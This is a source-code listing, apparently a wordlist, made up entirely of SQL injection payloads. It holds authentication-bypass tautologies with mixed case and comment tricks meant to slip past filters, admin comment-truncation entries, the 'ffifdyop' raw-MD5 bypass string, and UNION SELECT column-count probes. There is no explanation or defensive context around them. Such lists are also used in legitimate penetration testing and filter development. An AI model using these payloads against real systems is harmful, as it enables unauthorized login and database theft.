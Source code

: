 ```
'oR(true)#
'oR(true)/*
'oR(true)oR'
'oR/**/true-- 2
'oR/**/true#
'oR/**/true/*
'oR/**/true/**/oR'
"oR true-- 2
"oR true#
"oR true/*
"oR true oR"
"oR(true)-- 2
"oR(true)#
"oR(true)/*
"oR(true)oR"
"oR/**/true-- 2
"oR/**/true#
"oR/**/true/*
"oR/**/true/**/oR"
'oR'2'LiKE'2
'oR'2'LiKE'2'-- 2
'oR'2'LiKE'2'#
'oR'2'LiKE'2'/*
'oR'2'LiKE'2'oR'
'oR(2)LiKE(2)-- 2
'oR(2)LiKE(2)#
'oR(2)LiKE(2)/*
'oR(2)LiKE(2)oR'
"oR"2"LiKE"2
"oR"2"LiKE"2"-- 2
"oR"2"LiKE"2"#
"oR"2"LiKE"2"/*
"oR"2"LiKE"2"oR"
"oR(2)LiKE(2)-- 2
"oR(2)LiKE(2)#
"oR(2)LiKE(2)/*
"oR(2)LiKE(2)oR"
admin
admin'-- 2
admin'#
admin"-- 2
admin"#
ffifdyop
' UniON SElecT 1,2-- 2
' UniON SElecT 1,2,3-- 2
' UniON SElecT 1,2,3,4-- 2
' UniON SElecT 1,2,3,4,5-- 2
' UniON SElecT 1,2#
' UniON SElecT 1,2,3#
' UniON SElecT 1,2,3,4#
' UniON SElecT 1,2,3,4,5#
'UniON(SElecT(1),2)-- 2
'UniON(SElecT(1),2,3)-- 2
'UniON(SElecT(1),2,3,4)-- 2
'UniON(SElecT(1),2,3,4,5)-- 2
'UniON(SElecT(1),2)#
'UniON(SElecT(1),2,3)#
'UniON(SElecT(1),2,3,4)#
'UniON(SElecT(1),2,3,4,5)#
" UniON SElecT 1,2-- 2
" UniON SElecT 1,2,3-- 2
" UniON SElecT 1,2,3,4-- 2
" UniON SElecT 1,2,3,4,5-- 2
```